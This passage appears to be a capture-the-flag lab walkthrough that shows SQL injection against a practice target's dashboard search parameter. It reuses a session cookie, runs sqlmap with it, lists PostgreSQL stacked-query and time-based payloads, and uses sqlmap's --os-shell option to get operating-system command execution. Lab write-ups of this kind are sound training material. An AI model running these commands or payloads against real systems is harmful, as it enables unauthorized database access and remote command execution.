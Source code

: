 
The page takes in a GET request with the parameter search. This URL is
supplied to sqlmap, in order to test for SQL injection vulnerabilities.
The website uses cookies, which can be specified using --cookie.

Right-click the page and select Inspect Element. Click the Storage tab
and copy the PHP Session ID.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image84.png"></div>

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image85.png"></div>

WE see the PHPSESSID value is :"**gub9n3ugpgc5obsre8jkv8tq3m**"

We can construct the Sqlmap query as follows:

``` shell
sqlmap -u 'http://10.10.10.46/dashboard.php?search=a’--cookie="PHPSESSID=gub9n3ugpgc5obsre8jkv8tq3m"
```

Sqlmap found the page to be vulnerable to multiple injections, and
identified the backend DBMS to be PostgreSQL.

***Getting code execution in postgres is trivial using the --os-shell command.***
``` shell 
sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=gub9n3ugpgc5obsre8jkv8tq3m" --os-shell 
....
[*] starting @ 15:32:32 /2020-07-03/
....
....
Parameter: search (GET)
....
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=a';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=a' AND 8079=(SELECT 8079 FROM PG_SLEEP(5))-- dEyh
....
....
[15:32:34] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[15:32:34] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> 
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image86.png"></div>
